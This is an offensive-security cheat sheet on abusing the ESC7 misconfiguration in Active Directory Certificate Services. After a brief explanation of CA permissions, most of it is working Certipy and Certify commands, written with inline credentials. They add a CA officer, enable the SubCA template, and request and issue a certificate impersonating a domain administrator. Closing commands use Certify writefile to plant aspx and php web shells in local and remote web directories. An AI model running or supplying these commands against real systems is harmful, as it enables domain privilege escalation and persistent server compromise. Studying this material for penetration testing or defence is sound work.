 ```yaml
---
category: Uncategorized
tags: []
---
```

# General Overview

Certificate Authorities (CAs) are granted specific permissions to manage and secure operations. The ManageCA permission provides administrative control, allowing modifications to persistent configuration settings, such as enabling the EDITF_ATTRIBUTESUBJECTALTNAME2 flag. Conversely, the ManageCertificates permission permits the approval of pending certificate requests, which can override the need for manager approval.

# Abusing ESC7 Certificate Templates

## Scenario 1: 
If we find a user that has the Manage CA permission, we can add an Officer. This will grant us the Manage Certificates permission: 

## Certipy:
- certipy-ad ca -ca 'Vulnerable CA' -add-officer  -username afsimmons@megacorpone.com -password Spawn123!
- certipy-ad -ca -ca 'Vulnerable CA'  -enable-template SubCA -username afsimmons@megacorpone.com -password Spawn123!
If we have fulfilled the prerequisites for this attack, we can start by requesting a certificate based on the SubCA template:

- certipy-ad req -username afsimmons@megacorpone.com -password Spawn123! -ca corp-DC-CA -target ca.megacorpone.com -template SubCA -upn xadministrator@megacorpone.com
- certipy-ad ca -ca 'corp-DC-CA' -issue-request 785 -username afsimmons@megacorpone.com -password Spawn123!
- certipy-ad req -username afsimmons@megacorpone.com -password Spawn123! -ca corp-DC-CA -target ca.megacorpone.com -retrieve 785
## Certify
- Certify.exe setconfig /enablesan /restart
- Certify.exe request /template:corp-DC-CA /altname:xadministrator
- Certify.exe issue /id:[REQUEST ID]
- To disable: Certify.exe setconfig /removeapproval /restart
Alternative Technique:
- Get the current CDP list. Useful to find remote writable shares:
	Certify.exe writefile /ca:SERVER\ca-name /readonly

- Write an aspx shell to a local web directory:
	Certify.exe writefile /ca:SERVER\ca-name /path:C:\Windows\SystemData\CES\CA-Name\shell.aspx /input:C:\Local\Path\shell.aspx

- Write the default asp shell to a local web directory:
	Certify.exe writefile /ca:SERVER\ca-name /path:c:\\inetpub\\wwwroot\\shell.aspx
- Write a php shell to a remote web directory:
	Certify.exe writefile /ca:SERVER\ca-name /path:\\remote.server\\share\\shell.php /input:C:\\Local\\path\\shell.php
